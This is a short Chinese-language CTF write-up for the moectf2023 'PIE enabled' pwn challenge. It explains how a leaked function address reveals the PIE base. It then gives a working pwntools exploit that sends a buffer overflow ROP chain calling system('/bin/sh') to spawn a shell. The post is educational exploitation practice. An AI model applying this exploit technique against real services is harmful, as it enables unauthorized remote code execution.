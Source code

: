 ```yaml
---
title: moectf2023 - PIE enabled
date: 2023/9/24 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 利用vuln函数打印地址减去偏移量获取PIE基址，构造payload实现远程代码执行。
---
```


## 文件分析

下载`pwn`, NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

vuln函数直接把自己的地址打印出来了...直接减一减拿到piebase就和之前的题一样了

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 46153)
sh.recvuntil(b'is:') # skip
elf = ELF('pwnpie')
vuln = elf.symbols['vuln']
pieBase = int(sh.recvline()[2:14], 16) - vuln # 做完才发现int可以直接从bytes转换，不一定是str
shstrAddr = pieBase + 0x4010
popRdiAddr = pieBase + 0x1323
systemAddr = pieBase + 0x11d8
sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(shstrAddr) + p64(systemAddr))
sh.interactive()
```

Done.
